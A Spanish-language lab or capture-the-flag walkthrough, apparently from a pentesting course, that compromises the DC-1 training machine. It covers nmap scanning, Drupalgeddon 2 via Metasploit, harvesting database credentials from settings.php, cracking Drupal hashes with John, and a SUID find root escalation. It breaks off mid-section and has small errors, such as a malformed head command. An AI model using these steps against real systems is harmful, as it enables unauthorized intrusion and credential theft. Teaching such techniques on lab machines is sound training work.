# Guía de Pentesting - Máquina 2

**Curso:** Pentesting Pro  
**Objetivo:** Comprometer la máquina y obtener acceso root/administrador

## 📶 Reconocimiento
1. Descubrimiento de Host con `arp-scan`

  
- IP de la máquina objetivo: **192.168.100.129**  

También podemos realizar un descubrimiento del host haciendo uso del comando:
```bash
nmap -sn ip
```

## 🔍 Escaneo de puertos con Nmap
Realizamos un escaneo completo de puertos.
```bash
sudo nmap -sSVC -Pn -n --open --min-rate 5000 -p- 192.168.100.129
```
  
**Explicación parámetros:**
- `-sSVC`: Realiza el escaneo **SYN**, detecta versiones `-sV` y ejecuta scripts básicos `-sC`
- `-Pn`: Omite la detección de host (asume que el host esta vivo)
- `-n`: No aplica resolución **DNS**
- `--open`: Muestra solo puertos con estado **open**
- `--min-rate 5000`: Acelera el escaneo enviando paquetes más rápido
- `-p-`: Escanea todos los **65535** puertos

**Hallazgos**:
- Puerto: **22/tcp**, Servicio: **SSH**, Versión: **OpenSSH 6.0p1 Debian 4+deb7u7**
- Puerto: **80/tcp**, Servicio: **HTTP**, Versión: **Apache httpd 2.2.22  (Debian)**
- Puerto: **111/tcp**, Servicio: **rpcbind**, Versión: **2-4 (RPC #100000)**
- Puerto: **42990/tcp**, Servicio: **status**, Versión: **1 (RPC #100024)**

## 🌐 Análisis del Servicio Web (Puerto 80)
Accedemos mediante el navegador a la dirección http://192.168.100.129 para inspeccionar el contenido del servidor web.
  
**Observaciones:**
- Se trata de un sitio construido con **Drupal**, un popular CMS (Content Management System)
- En la página encontramos un formulario de **User login** con campos:
	- `Username`
	- `Password`
### Descubrimiento de rutas sensibles - robots.txt
Accedemos al archivo `robots.txt` para identificar directorios y archivos que el administrador ha excluido de los motores de búsqueda (pero que son accesibles para nosotros).
  
#### Información filtrada - Directorios
```
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
```
#### Información filtrada - Archivos sensibles
```
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPDATE.txt
Disallow: /xmlrpc.php
```
### Análisis de hallazgos
- `/intall.php` ⚠️**Crítico** - podría permitir reinstalar Drupal si no fue eliminado
- `/CHANGELOG.txt` ℹ️Versión exacta de Drupal
- `/xmlrpc` ⚠️ Posible vector de ataques (XML-RPC)
- `/modules`, `/profiles`, `/themes` ℹ️ Directorios con archivos potencialmente vulnerables
### Confirmación de la versión de Drupal
Accedemos al archivo `CHANGELOG.txt` para identificar la versión exacta de Drupal que está ejecutando el servidor.
  
**Versión identificada:**Drupal 7.57**  

## ⚔️ Explotación - Drupalgeddon 2 (CVE-2018-7600)
Confirmada la versión **Drupal 7.57**, procedemos a buscar exploits conocidos para esta versión.
### Vulnerabilidad crítica: Drupalgeddon 2 (CVE-2018-7600)
La versión **Drupal 7.57** es vulnerable a **Drupalgeddon 2**, una vulnerabilidad crítica que permite **ejecución remota de código (RCE)** sin autenticación.  
**Detalles del exploit:**
- **impacto:** Ejecución remota de comandos en el servidor
- **Autenticación requerida:** ❌ No
- **Complejidad:** Baja
- **CVE:** CVE-2018-7600

  
### Uso de Metasploit Framework
Confirmada la existencia del exploit **Drupalgeddon 2**, utilizamos **Metasploit Framework** para automatizar el proceso de explotación.  
Iniciamos **Metasploit** y buscamos el módulo correspondiente:
```bash
sudo msfdb init && msfconsole
search drupal 7
```
  

**Módulo encontrado:**
- 1 `exploit/multi/http/drupal_drupalgeddon2`
Seleccionamos el módulo para **Drupalgeddon2**
```bash
use 1
```
### Verificación de opciones del módulo
Revisamos los parámetros requeridos
```bash
show options
```
  
Configuramos la opción necesaria para el exploit:
```bash
set RHOSTS 192.168.100.129
```
Confirmamos que el parámetro esté correctamente establecido:
  
### Ejecución del exploit
Una vez configurados todos los parámetros, ejecutamos el exploit:  
  
### Acceso al sistema
Una vez obtenida la sesión de **Meterpreter**, lanzamos una shell interactiva:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
**Confirmación:**
- ✅ Usuario actual: **www-data**
- ✅ Nombre del host: **DC-1**
- ✅ Directorio actual: `/var/www`

## 🔍 Enumeración Post-Explotación - Primera Flag
Una vez con acceso como usuario `www-data`, comenzamos a enumerar el sistema en busca de información sensible y flags.
```bash
ls -alh
```
  
Leemos el contenido del archivo `flag1.txt`
```bash
cat flag1.txt
```
  
**Contenido del archivo:**
- ✅ Flag 1 (Pista): **Every good CMS needs a config file - and so do you**.

**Análisis de la pista:**  
El mensaje no es una flag tradicional, sino una **pista** que nos indica el siguiente paso.  
En Drupal, el archivo de configuración principal es `settings.php` ubicado en:
```bash
/var/www/sites/default/settings.php
```
  
**Este archivo suele contener:**
- Credenciales de acceso a la base de datos
- Claves secretas
- Configuración del sitio

## 🔍 Enumeración Post-Explotación - Segunda Flag y Credenciales
Siguiendo la pista de la primera flag, accedemos al archivo de configuración de Drupal.  
  
**Hallazgos:**
- ✅ Flag 2 (Pista): **Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access). What can you do with these credentials?**  

**Credenciales de Base de Datos**  
El archivo `settings.php` contiene las credenciales de conexión a la base de datos MySQL:
- Base de datos: `drupaldb`
- Nombre de usuario: `dbuser`
- Contraseña: `R0ck3t`
- Host: `localhos`

**Análisis de la pista:**
- La fuerza bruta no es el único camino
- Necesitamos **acceso** a algo
- Debemos aprovechar estas credenciales

## 🗄️ Explotación - Acceso a Base de Datos MySQL
### Conexión a MySQL
Con las credenciales obtenidas del archivo `settings.php`, nos conectamos a la base de datos MySQL:
```bash
mysql -u dbuser -p
Enter password: R0ck3t
```
  
### Exploración de la Base de Datos
```bash
# Listamos las bases de datos disponibles
show databases;
```
  
**Base de datos encontradas:**
- `information_schema`
- `drupaldb` ✅ (base de datos del sitio Drupal)
#### Selección de la base de Datos
```bash
# Seleccionamos la base de datos
use drupaldb;
```
#### Enumeración de Tablas
```bash
# Enumeramos las tablas de la base de datos drupaldb
show tables;
```
  
  
  
**Tabla de interés identificada:** `users` (contiene los usuarios del sitio)
#### Extracción de Usuarios
```bash
# Consultamos el contenido de la tabla users
select * from users;
```
  
**Análisis de los Hashes de contraseña**  
Los hashes de contraseña de Drupal tienen un formato `$S$`. Podemos intentar crackearlos para obtener las contraseñas en texto plano.

## 🔓 Cracking de Hashes de Drupal
### Extracción de Hashes
Una vez identificados los usuarios en la base de datos, extraemos los hashes de contraseña de la tabla `users`
```bash
# Copiamos el hash del usuario que queremos crackear a nuestra máquina atacante
nano hash
```
### Preparación del Diccionario para Acelerar el Proceso
Para reducir el tiempo del cracking, creamos un diccionario más pequeño extrayendo un rango especifico del archivo `rockyou.txt`
```bash
head -n "819000,819125" /usr/share/wordlists/rockyou.txt > rrockyou.txt
```
### Cracking con John the Ripper
Utilizamos **John the Ripper** con el formato específico para Drupal 7:
```bash
john --format=drupal7 --wordlist=rrockyou.txt hash
```
  
**Resultado del cracking:**
- Usuario: `prueba1`
- Contraseña: `prueba1`

## 🌐 Acceso al Panel de Administración de Drupal
### Login del Sitio Web
Con las credenciales obtenidas mediante el cracking del hash, accedemos al panel de administración de Drupal.  
  
### Exploración del Panel
Una vez dentro, navegamos por las diferentes secciones del panel de administración en busca de información sensible o flags.  
### Hallazgo de la Flag3
En la sección de **Recent content** del dashboard, encontramos una entrada llamada **flag3:**
  
Accedemos al contenido del **flag3**:  
  
**Hallazgo:**
- ✅ Flag 3 (Pista): **Special PERMS will help FIND the passwd - but you'll need to -exec tjat command to work out how to get what's in the shadow.**

## 👑 Escalada de Privilegios - Abuso del Binario
### Análisis de la Pista
la flag3 mencianaba:  
 **Special PERMS will help FIND the passwd - but you'll need to -exec tjat command to work out how to get what's in the shadow.**  
 Las palabras en payusculas **FIND** y **-exec** nos dan una pista clara: el binario **find** podría tener permisos especiales que permitan ejecutar comandos como `root`  
### Consulta de GTFObins
Para confirmar cómo abusar del binario `find` con permisos **SUID**, consultamos [GTFObins](https://gtfobins.org/), el recurso de referencia para técnicas de escalada de privilegios.  
  
### Técnica de Explotación para find
Buscamos `find` en **GTFObins** y encontramos la técnica de abuso:  
  
**Técnica identificada:**
```bash
find . -exec /bin/sh -p \; -quit
```
**Explicación:**
- `find .`: Busca archivos en el directorio actual
- `-exec`: Ejecuta el comando por cada archivo 
- `/bin/sh -p`: La **shell** a ejecutar con el flag `-p` (preservar privilegios)
- `\;`: **Marca el final del comando ejecutado por `-exec`.** El punto y coma es necesario para que `find` sepa dónde termina el comando. Se escapa con la barra invertida `\` para que la **shell** no interprete el `;` como su propio terminador de comando
- `-quit`: Termina la ejecución después del primer archivo encontrado (no sigue buscando más)
### Error al ejecutar el comando
Al intentar ejecutar el comando en la máquina objetivo, obtenemos el error:  
  
### Solución: Adaptar el comando
El error ocurre porque `/bin/sh` en **Debian** (enlazado a `dash`) no soporta el flag `-p` para preservar privilegios. Podemos solucionarlo de dos formas:
